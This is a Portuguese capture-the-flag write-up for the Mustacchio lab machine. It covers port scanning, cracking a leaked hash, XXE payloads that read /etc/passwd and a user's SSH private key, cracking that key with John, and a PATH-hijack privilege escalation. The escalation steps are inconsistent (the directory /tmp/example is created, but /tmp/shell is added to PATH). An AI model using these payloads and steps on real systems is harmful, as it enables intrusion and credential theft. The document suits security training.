# _**Mustacchio CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos duas páginas web:
* porta 80: página normal
* porta 8765: página de login

Vamos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Investigando as páginas descobertas, encontramos um arquivo _.bak_  
Baixamos este arquivo e utilizamos ```strings``` para verificar seu conteúdo  



Parece que temos um nome de usuário e hash de senha  
Investigando a hash no site [crackstation](https://crackstation.net/), temos o seguinte resultado  



Vamos tentar estas credenciais na página de login  
Temos login com sucesso!  



Investigando a página e tentando alguns códigos XML, não temos nenhum resultado  
Mas, verificando o código da página, temos uma pista!  



Procurando outras informações, chegamos na seguinte parte  



Vamos tentar acessar o conteúdo de: _/auth/dontforget.bak_  
Usando ```strgins```, tentamos buscar por informações escondidas, mas não obtemos nada de relevante  
Executando o comando ```file```, temos que é um arquivo XML  
Vamos tentar inserir esse parágrafo no campo que descobrimos anteriormente  



E olhe só, temos retorno!  
Vamos alterar o conteúdo da cópia para podermos detectar uma vulnerabilidade ou buscar arquivos específicos  
[Neste site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability) podemos encontar uma dessas maneiras
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE comment [
>   <!ENTITY xxe SYSTEM "file:///etc/passwd">
> ]>
> <comment>
>   <name>&xxe;</name>
>   <author>Barry Clad</author>
>   <com>Testando XXE para leitura de arquivos</com>
> </comment>
> ```

Temos retorno do arquivo do qual estavamos buscando!  



Informações relevantes foram descobertas  
Temos dois usuários:
* barry
* joe

E também sabemos que é necessário uma chave para realizar login SSH  
Geralmente, o arquivo _id_rsa_ está localizado em /home/[username]/.ssh/id_rsa  
Vamos alterar nosso _payload_ para conseguirmos obter esse arquivo  
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE comment [
>   <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">
> ]>
> <comment>
>   <name>&xxe;</name>
>   <author>Barry Clad</author>
>   <com>Testando XXE para leitura de arquivos</com>
> </comment>
> ```

Conseguimos obter a chave!  



Agora, vamos quebrar ela com <mark>John the Ripper</mark>  
> ```bash
> ssh2john id_rsa > hash
> john -w=../wordlists/rockyou.txt hash
> ```


Vamos realizar login via SSH como usuáro Barry agora  



## _**Escalando privilégios**_
Encontramos já de cara após poucos comandos um arquivo para investigarmos: _/home/joe/livelog_  



Investigando o arquivo com ```strings```, vemos o seguinte comando: _tail -f /var/log/nginx/access.log_  
Isso nos mostra que o binário está sendo executado sem um _path_ completo, isto é, não usando _/usr/bin/curl_ ou _/usr/bin/uname_  
Para podermos explorar isso, vamos realizar os seguintes passos:
> Crie um novo diretório na pasta /tmp/: <mark>mkdir /tmp/example</mark>
> Vá para essa pasta criada: <mark>cd /tmp/example</mark>
> Altere a pasta _/usr/bin_ para _/tmp/example_: <mark>export PATH=/tmp/shell:$PATH</mark>
> Crie um arquivo _tail_ e digite estes dois comandos: <mark>echo ‘#!/bin/bash’ > tail</mark> & <mark>echo ‘/bin/bash’ >> tail</mark>  
> Alterar as permissões para o arquivo _tail_: <mark>chmod +x tail</mark>  
> Volte para _live_log_ e execute o arquivo: <mark>./live_log</mark>



Basta agora obter a última flag!
